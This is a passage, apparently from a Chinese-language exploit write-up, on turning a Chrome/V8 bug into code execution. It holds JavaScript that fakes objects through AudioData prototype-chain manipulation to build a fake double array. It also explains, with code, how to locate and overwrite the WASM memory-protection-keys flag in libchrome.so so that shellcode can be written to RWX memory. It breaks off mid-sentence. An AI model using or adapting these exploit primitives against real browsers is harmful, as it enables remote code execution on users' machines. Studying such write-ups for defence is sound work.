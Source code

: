 ```js
    class SubAudioData extends AudioData {
      constructor(addr) {
        let input = audioDataInput;
        input.timestamp = addr;
        super(input);
      }
        
      getFakeObj() {
        return super.signal;
      }
    }
    function createFakeObj(i, addr) {
      req['a' + i] = 1;
      if (i < loopCount) {
        SubAudioData.prototype.__proto__ = {};
      } else {
        SubAudioData.prototype.__proto__ = req;
      }
      req.signal;
      return subAudio.getFakeObj();
    }
    
    var subAudio = new SubAudioData(imgAddr + 0x8);
    for (let i = 0; i < loopCount; i++) {
      createFakeObj(i);
    }
    var fakeDblArr = createFakeObj(loopCount);
```


### 绕过 WASM 内存保护

曾经在某篇文章里提到过，过去版本的 V8 中对 WASM 内存段不设保护，创建 WASM 后会直接生成一段 RWX 内存，这能为我们的利用提供很大的方便，因为在能够任意写的条件下，将 shellcode 写入该内存段是没有任何难度的。

但是后来的版本中为此添加了新保护，当该漏洞发生的版本下， WASM 仍会生成 RWX 内存段，但是向其写入时将会引发崩溃，因为它启用了 `kWebAssemblyCodeProtectionPku` ： `wasm-memory-protection-keys` 成为写入该内存段的开关，它将会令该内存段的权限在 RX 和 RWX 间切换。

而该标志位于 `libchrome.so` 中，通过 Blink 对象的读取，我们仍然有办法得到其地址：

```js
    var shellArrayAddr = addrOf(shellArray);

    let wrapperMatrix = new SubMatrix(imgAddr);
    let wrapperAddr = ftoi(readFrom(loopCount, wrapperMatrix));
    var wasmProtectionKeyAddr = wrapperAddr + wasmMemoryProtectionKeysOffset;
    compressedWrite(shellArrayAddr + 0x2c, itof(wasmProtectionKeyAddr));
    for (let i = 0; i < 8; i++) {
      shellArray[i] = 0;
    }
```

另外，笔者也顺手找了一下相关的函数：
